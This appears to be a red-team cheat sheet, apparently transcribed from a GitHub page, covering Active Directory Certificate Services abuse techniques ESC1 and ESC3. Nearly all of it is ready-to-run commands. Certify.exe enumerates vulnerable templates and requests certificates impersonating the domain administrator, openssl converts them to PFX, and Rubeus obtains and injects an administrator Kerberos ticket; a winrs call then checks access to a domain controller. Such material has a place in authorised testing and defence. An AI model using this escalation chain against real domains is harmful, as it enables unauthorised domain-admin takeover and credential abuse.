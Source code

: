 ```powershell
# Enumerate Vulnerable Tmeplates
C:> Certify.exe find /vulnerable
```
#### ESC1
```powershell
# Generating a certificate for any user, it's possible to request TGT on behalf
#  of the user the cert been generated

# List templates with msPKI-Certificates-Name-Flag : ENROLLEE_SUPPLIES_SUBJECT
C:> Certify.exe find /enrolleeSuppliesSubject

# Request certificate for Domain Admin (PEM format)
C:> Certify.exe request /ca:<CA_name> /template:"<template_name>" /altname:administrator
# Prints the cert, need to save it on file. Copy text between:
#       -----BEGIN RSA PRIVATE KEY----- and -----END CERTIFICATE-----

# Convert from PEM to PFX. Using openssl
C:> openssl.exe pkcs12 -in <pem_file.pem> -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" 
                       -export -out <out_file.pfx>

# Use Rubeus to request TGT for DA Admin
C:> Rubeus.exe asktgt /user:administrator /certificate:<exported_certificate>.pfx 
                      /password:<export_password_put_before> /ptt
                  
# Got privileges
C:> winrs -r:dcorp-dc whoami
```

#### ESC3
```powershell
# Some Templates have policies to allow other Templates to generate certificates
#  By this technique can generate a cert for a user using a certificate

# Enumerate vulnerable templates 
C:> Certify.exe find /vulnerable
# Interesting to see pkiextendedkeyusage : Certificate Request Agent

# Need to find another template with EKU that allows for domain autentication and application
#  of certificate request agent. Then can request certificate as any user. Like ESC1
C:> Certify.exe find
# Search for the one with 'Application Policies : Certificate Request Agent'

# Request an enrollment agent certificate from first template and save to file
C:> Certify.exe request /ca:<CA_name> /template:SmartCardEnrollment-Agent

# Convert to PFX
C:> openssl.exe pkcs12 -in <file>.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" 
                -export -out <out_file>.pfx

# Request a certificate for DA from the second cert found using the generated one
C:> Certify.exe request /ca:<CA_name> /template:SmartCardEnrollment-Users /onbehalfof:<domain>\administrator 
                        /enrollcert:esc3-agent.pfx /enrollcertpw:<password>

# Convert to PFX
C:> openssl.exe pkcs12 -in <in_file>.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" 
                -export -out <out_file>.pfx

# Request TGT aS DOMAIN ADMIN
c:> Rubeus.exe asktgt /user:administrator /certificate:<OUT_fILE_PREVIOUS_STEP>.pfx 
                      /password:<pass_previous_step> /ptt
```